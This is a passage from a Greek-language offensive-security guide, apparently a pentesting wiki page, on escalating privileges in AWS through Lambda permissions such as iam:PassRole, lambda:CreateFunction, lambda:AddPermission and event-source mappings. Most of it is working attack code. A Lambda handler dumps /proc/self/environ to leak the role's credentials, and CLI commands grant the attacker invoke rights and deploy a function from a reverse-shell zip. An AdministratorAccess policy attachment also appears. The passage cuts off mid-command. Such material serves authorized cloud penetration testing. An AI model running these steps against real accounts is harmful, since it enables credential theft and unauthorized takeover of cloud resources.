 ```python
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
Είναι επίσης δυνατό να leak τα διαπιστευτήρια του role της lambda χωρίς να χρειάζεται εξωτερική σύνδεση. Αυτό θα ήταν χρήσιμο για **Network isolated Lambdas** που χρησιμοποιούνται σε εσωτερικές εργασίες. Εάν υπάρχουν άγνωστα security groups που φιλτράρουν τα reverse shells σου, αυτό το κομμάτι κώδικα θα σου επιτρέψει να leak απευθείας τα διαπιστευτήρια ως έξοδο της lambda.
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**Potential Impact:** Άμεσο privesc στον καθορισμένο role υπηρεσίας lambda.

> [!CAUTION]
> Σημειώστε ότι, ακόμη κι αν φαίνεται ενδιαφέρον, **`lambda:InvokeAsync`** **δεν** επιτρέπει από μόνο του να **εκτελέσετε `aws lambda invoke-async`**, χρειάζεστε επίσης `lambda:InvokeFunction`

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Όπως στο προηγούμενο σενάριο, μπορείτε να **παραχωρήσετε στον εαυτό σας την άδεια `lambda:InvokeFunction`** εάν έχετε την άδεια **`lambda:AddPermission`**
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**Potential Impact:** Άμεσο privesc στο αυθαίρετο lambda service role που καθορίζεται.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Χρήστες με **`iam:PassRole`, `lambda:CreateFunction` και `lambda:CreateEventSourceMapping`** δικαιώματα (και ενδεχομένως `dynamodb:PutItem` και `dynamodb:CreateTable`) μπορούν έμμεσα να αποκτήσουν αυξημένα προνόμια ακόμη και χωρίς `lambda:InvokeFunction`.\
Μπορούν να δημιουργήσουν μια **Lambda function με κακόβουλο κώδικα και να την αναθέσουν σε έναν υπάρχοντα IAM role**.

Αντί να καλεί άμεσα τη Lambda, ο χρήστης ρυθμίζει ή χρησιμοποιεί έναν υπάρχοντα πίνακα DynamoDB, συνδέοντάς τον με τη Lambda μέσω ενός event source mapping. Αυτή η διάταξη εξασφαλίζει ότι η Lambda function ενεργοποιείται αυτόματα όταν εισαχθεί ένα νέο item στον πίνακα, είτε από ενέργεια του χρήστη είτε από άλλη διαδικασία, προκαλώντας έτσι έμμεση κλήση της Lambda function και εκτέλεση του κώδικα με τα δικαιώματα του περασμένου IAM role.
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
Εάν το DynamoDB είναι ήδη ενεργό στο περιβάλλον AWS, ο χρήστης χρειάζεται μόνο να **εγκαταστήσει την αντιστοίχιση πηγής συμβάντων** για τη συνάρτηση Lambda. Ωστόσο, αν το DynamoDB δεν χρησιμοποιείται, ο χρήστης πρέπει να **δημιουργήσει έναν νέο πίνακα** με ενεργοποιημένο το streaming:
```bash
aws dynamodb create-table --table-name my_table \
```